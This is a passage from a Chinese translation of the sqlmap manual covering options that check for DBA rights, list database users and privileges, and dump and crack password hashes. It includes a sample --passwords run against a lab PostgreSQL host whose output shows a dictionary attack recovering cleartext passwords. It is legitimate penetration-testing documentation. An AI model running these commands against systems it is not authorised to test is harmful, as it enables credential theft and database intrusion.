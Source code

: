 ### 检测会话用户是否是数据库管理员

开关: `--is-dba`

如果当前的数据库管理系统会话用户是数据库管理员，也称为DBA，则可以检测到它。如果是，sqlmap将返回 `True` ，反之亦然。

### 列出数据库管理系统的用户

开关: `--users`

当会话用户读取包含DBMS用户信息的系统表时，可以枚举用户列表。

### 列表和破解数据库管理系统用户密码散列

开关: `--passwords`

当会话用户读取包含关于DBMS用户密码信息的系统表的访问时，可以为每个数据库管理系统用户枚举密码散列。sqlmap将首先枚举用户，然后对每个用户进行不同的密码散列。

针对PostgreSQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
passwords -v 1

[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```

sqlmap不仅枚举DBMS用户和密码,同时，它也能识别出是PostgreSQL的散列格式,问用户是否要对字典文件进行测试，并且为postgres的用户确认明文密码,这通常沿着其他用户的DBA,`testuser`,密码。

这个特性已经在所有DBMS中实现，在那里可以枚举用户的密码散列，包括Oracle和Microsoft SQL Server pre和post 2005。

您还可以提供选项 `-U` 来指定要枚举的特定用户，并最终破解密码散列。如果您提供 `CU` 作为用户名，它将把它视为当前用户的别名，并将为该用户检索密码散列。

### 列表数据库管理系统用户权限

开关: `--privileges`

当会话用户访问包含DBMS用户信息的系统表时，可以枚举每个数据库管理系统用户的特权。通过特权，sqlmap还将显示哪些是数据库管理员。
